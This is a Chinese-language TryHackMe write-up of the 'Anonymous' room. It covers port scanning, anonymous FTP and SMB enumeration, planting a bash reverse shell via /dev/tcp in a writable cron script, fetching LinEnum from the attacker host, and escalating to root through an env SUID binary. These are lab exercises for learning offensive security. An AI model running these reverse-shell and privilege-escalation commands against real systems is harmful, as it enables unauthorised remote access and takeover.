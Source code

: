 # Anonymous Writeup
###### tags: `thm`
> URL : https://tryhackme.com/room/anonymous

IP : 10.10.142.45

## Recon
- 掃 Port 起手式
    - `rustscan -a 10.10.142.45 -r 1-65535 --ulimit 5000`
        - 22
        - 21
        - 139
        - 445
    - `nmap -A -p21,22,139,445 10.10.142.45`
        - 21 : FTP
            - VSFTPD 2.0.8
        - 22 : SSH
        - 139: SMB
        - 445: SMB
        - ![](https://i.imgur.com/2TM1uMz.png)
- 嘗試連接 ftp
    - `ftp 10.10.142.45` 使用 anonymous 登入
    - ![](https://i.imgur.com/b7Qrl7f.png)
    - 發現裡面有一個 `scripts` 資料夾
        - 先把裡面所有檔案都載下來
        - ![](https://i.imgur.com/KsKVdo3.png)
        
- 觀察檔案
    - `clean.sh`
        - 看起來是一段 清除資料的 bash script
        - ![](https://i.imgur.com/4Lcnfv6.png)
    - `removed_files.log`
        - 看起來東西都是空的，是上述腳本的輸出
        - ![](https://i.imgur.com/0mXudWi.png)
    - `to_do.txt`
        - 看起來沒有很重要
        - ![](https://i.imgur.com/PTl2P7B.png)

- 嘗試連線 SMB
    - 發現有一個 pics 資料夾
        - ![](https://i.imgur.com/i7i7LGJ.png)
    - 裡面有兩張圖片
        - ![](https://i.imgur.com/WXjKMEq.png)
    - 把兩張圖片載下來
        - ![](https://i.imgur.com/ZRYflNb.png)
- 觀察圖片
    - 看起來是狗勾!
        - ![](https://i.imgur.com/jLqjCjO.png)
    - 用 Exif tool 觀察
        - ![](https://i.imgur.com/MSukA0V.png)
        - ![](https://i.imgur.com/rc3Z36u.png)
        - 可以看出 Photoshop 編輯過
    - 後來還用了 `steghide` 等程式，都沒有結果 

## 嘗試 Exploit
- 尋找到 Vsftpd 2.3.4 有 Exploit
    - https://www.exploit-db.com/exploits/49757
    - `wget https://www.exploit-db.com/download/49757 -O 49757.py`
    - 發現他是 Anonymous only，所以這個 Exploit 不能用!!
    - 用了 msf 也是一樣的結果 QQ
        - ![](https://i.imgur.com/P18sSV3.png)
    
- 突然想到，說不定 ftp 上面的 `clean.sh` 是一個 cron job
    - 我們既然有讀寫的權限，可以在上面戳個 reverse shell 再傳上去
    - `echo bash -c "'bash -i >& /dev/tcp /10.13.21.55/7877 0>&1'" >> clean.sh`
    - 本地端開 nc 來接
- 成功接上ㄌ
    - ![](https://i.imgur.com/0iyaFLU.png)
    - 取得 User flag
        - ![](https://i.imgur.com/ysQnHSX.png)
## 提權
- 起手式 `sudo -l`
    - 看起來沒東西 QQ
    - ![](https://i.imgur.com/m70zKKl.png)
- 準備 Linenum
    - `wget 10.13.21.55:8000/LinEnum.sh`
    - 掃到了 `/usr/bin/env` 有 suid
    - ![](https://i.imgur.com/NhM5A75.png)
- 透過 [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) 尋找 env SUID 提權
    - `/usr/bin/env /bin/sh -p`
- 成功提權
    - ![](https://i.imgur.com/qbMSXz6.png)
    - 取得 Root Flag
        - ![](https://i.imgur.com/vsaOGRa.png)

## 心得
FTP 上面的檔案也有可能是 Cron Job，看到 shell 就優先懷疑它是 cron ，看看能不能戳一些東西上去。打 Exploit 前須要先確定一下他有沒有一些限制(FTP的不能是 Anonymous登入)。